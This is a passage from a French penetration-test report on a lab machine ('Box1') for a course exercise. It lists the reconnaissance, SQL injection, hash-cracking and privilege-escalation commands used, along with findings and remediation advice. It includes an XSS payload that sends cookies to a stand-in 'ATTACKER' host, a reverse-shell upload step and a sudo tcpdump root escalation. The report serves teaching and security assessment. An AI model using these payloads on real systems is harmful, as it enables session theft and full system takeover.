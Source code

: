 Impact : prise complète du système (compte root) démontrée — risque critique.

---

## 3. Méthodologie et commandes utilisées

* **Découverte des services** : `nmap -sV -sC -O 192.168.56.20` (détails des services HTTP et SSH).
* **Énumération web** : `gobuster dir -u http://192.168.56.20 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`.
* **Test SSL** (port 443 filtré) : `nmap -p 443 -sV --script ssl-cert 192.168.56.20`.
* **Injection & dump SQL** : payload manuel `' or 1=1; -- -`, puis `sqlmap -r sqlmap.txt -D support -T users --dump`.
* **Crackage de hash** : `john --format=raw-md5 --wordlist=../rockyou.txt ../hash.txt`.
* **XSS / vol cookie** : injection de script (`<script>fetch('http://ATTACKER/?cookies='+document.cookie)</script>`), remplacement du cookie d’admin et upload d’un reverse-shell.
* **Escalade par permissions** : suppression/création d'un `www-backup` exécutable exploité par l'utilisateur `operator`.
* **Escalade root via sudoable tcpdump** : utilisation de `-z` avec un fichier temporaire contenant la commande `chpasswd` et exécution `sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root`.

> Tous les tests ont été réalisés sur la machine Box1 fournie dans le cadre du TP, dans un environnement de laboratoire contrôlé.

---

## 4. Résultats détaillés (vulnérabilités identifiées)

Pour chaque entrée : `Vulnérabilité — Criticité — Impact — Recommandation (résumé)`

### 4.1 Injection SQL (SQLi)

* **Criticité :** Critique
* **Impact :** Vol & exfiltration de données (tables, mots de passe, etc.) — compromission complète des comptes.
* **Recommandation :** Utiliser des requêtes préparées (PDO / requêtes paramétrées), validation stricte des entrées, ORM, contrôle d'accès côté serveur.

### 4.2 Politique de mot de passe faible

* **Criticité :** Critique
* **Impact :** Cassage des mots de passe par attaque par dictionnaire / wordlists.
* **Recommandation :** Contraindre mots de passe ≥ 12 caractères, mélange maj/min/chiffres/caractères spéciaux ; stockage par hashing moderne (bcrypt/argon2) et salage.

### 4.3 Cross-Site Scripting (XSS)

* **Criticité :** Critique
* **Impact :** Vol de session, actions en tant qu’utilisateur, pivot vers attaque d’administration.
* **Recommandation :** Assainir les entrées (HTML sanitizer / DOMPurify), encoder les sorties (`htmlspecialchars`), mettre en place CSP.

### 4.4 Vol de session / SSRF-like (cookie non-HttpOnly + upload de shell)
